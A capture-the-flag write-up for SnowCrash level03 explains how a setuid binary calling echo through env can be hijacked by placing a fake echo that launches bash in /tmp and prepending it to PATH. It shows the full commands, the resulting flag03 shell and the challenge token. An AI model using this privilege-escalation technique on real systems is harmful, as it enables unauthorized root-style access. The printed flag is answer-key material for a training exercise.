 #level03

We have an executable located in the home directory

	level03@SnowCrash:~$ ls -l
	total 12
	-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
	
	level03@SnowCrash:~$ file level03
	level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped

This is a setuid binary executed as "flag03".
Here is the source code :

	int main(int argc,char **argv,char **envp)
	
	{
	  __gid_t __rgid;
	  __uid_t __ruid;
	  int iVar1;
	  gid_t gid;
	  uid_t uid;
	  
	  __rgid = getegid();
	  __ruid = geteuid();
	  setresgid(__rgid,__rgid,__rgid);
	  setresuid(__ruid,__ruid,__ruid);
	  iVar1 = system("/usr/bin/env echo Exploit me");
	  return iVar1;
	}

We can see that the call to echo isn't done with the full path and instead relies on the $PATH environment variable. We can exploit this by creating our own echo binary and make it run a shell.
Since this binary is ran as flag03, the shell will belong to flag03 and we will be able to run getflag.

	level03@SnowCrash:~$ echo "/bin/bash" > /tmp/echo; chmod +x /tmp/echo
	
	level03@SnowCrash:~$ export PATH=/tmp:$PATH
	
	level03@SnowCrash:~$ which echo
	/tmp/echo
	
	level03@SnowCrash:~$ ./level03 
	bash: /home/user/level03/.bashrc: Permission denied
	
	flag03@SnowCrash:~$ id
	uid=3003(flag03) gid=2003(level03) groups=3003(flag03),100(users),2003(level03)
	
	flag03@SnowCrash:~$ getflag
	Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
